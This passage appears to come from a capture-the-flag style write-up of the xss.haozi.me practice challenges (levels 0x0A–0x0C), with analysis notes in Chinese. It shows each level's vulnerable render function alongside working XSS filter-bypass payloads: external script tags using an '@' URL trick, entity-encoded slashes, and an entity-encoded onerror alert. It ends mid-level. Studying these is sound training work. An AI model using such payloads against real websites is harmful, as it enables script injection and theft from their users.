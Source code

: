 input code:

```
https://www.segmentfault.com@xss.haozi.me/j.js
```

html:

```
<script src="https:&#x2f&#x2fwww.segmentfault.com@xss.haozi.me&#x2fj.js"></script>
```

## 0x0B

server code:

```
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```

Analysis:

```
将输入全部大写；
1、html标签大小写无影响，可以直接引入外部js文件绕过；
2、js严格区分大小写，但在html标签内可以使用html实体编码绕过；
```

input code:

```
1、<script src="https://xss.haozi.me/j.js"></script>
2、<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;>
```

html:

```
1、<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
2、<h1><IMG SRC=X ONERROR=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;></h1>
```

## 0x0C

server code:

```
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

Analysis:

